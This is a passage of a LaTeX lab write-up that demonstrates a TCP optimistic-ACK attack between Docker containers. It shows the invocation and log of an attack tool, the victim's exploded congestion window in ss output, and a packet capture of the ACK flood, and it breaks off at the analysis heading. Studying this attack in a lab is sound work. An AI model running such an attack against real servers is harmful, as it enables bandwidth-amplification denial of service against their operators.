 \documentclass[11pt,a4paper]{article}
\begin{document}
\paragraph{Step 3 --- Launch the attack.} The attacker connects and begins acknowledging
data optimistically. Its own log shows the runaway --- over 1.6\,GB ``received'' in 14
seconds, far beyond what a 20\,ms/2\%-loss link could honestly deliver:
\begin{lstlisting}[style=term]
$ /work/attack --target server --port 5000 --duration 15 --sack --timestamps -v
[optack] 172.28.0.20:25879  ->  172.28.0.10:5000  (mode=optimistic, isn=55018294)
[optack] connection established (timestamps on), streaming begins
[optack] t=1.0s  recv=111.60 MB   ack-ahead=18KB   acks=1000
[optack] t=5.0s  recv=560.72 MB   ack-ahead=450KB  acks=5000
[optack] t=10.0s recv=1235.22 MB  ack-ahead=29KB   acks=10000
[optack] t=14.0s recv=1677.19 MB  ack-ahead=0KB    acks=14000
\end{lstlisting}

\paragraph{Step 4 --- The victim's screen.} On the victim, the same \texttt{ss -ti} now
shows the signature of the attack: the congestion window has exploded and the measured
minimum RTT has collapsed toward zero:
\begin{lstlisting}[style=term]
$ docker compose exec server ss -tin dst attacker
ESTAB  172.28.0.10:5000  172.28.0.20:25879
   cubic rtt:12.157/2.983 mss:1448 cwnd:2339 ssthresh:2109
   bytes_sent:577482120 send 2228755121bps minrtt:0.89
\end{lstlisting}

A packet capture on the victim confirms the mechanism --- a dense stream of tiny,
zero-length pure ACKs arriving from the attacker (the ``trickle up'' that coerces the
``torrent down''):
\begin{lstlisting}[style=term]
$ tcpdump -i eth0 -n 'tcp and src host 172.28.0.20'
172.28.0.20.25879 > 172.28.0.10.5000: Flags [.], ack ..., win 65535, length 0
172.28.0.20.25879 > 172.28.0.10.5000: Flags [.], ack ..., win 65535, length 0
... (thousands of 0-byte ACKs per second) ...
\end{lstlisting}

\section{Was the Attack Successful? Analysis}
\label{sec:success}
\end{document}

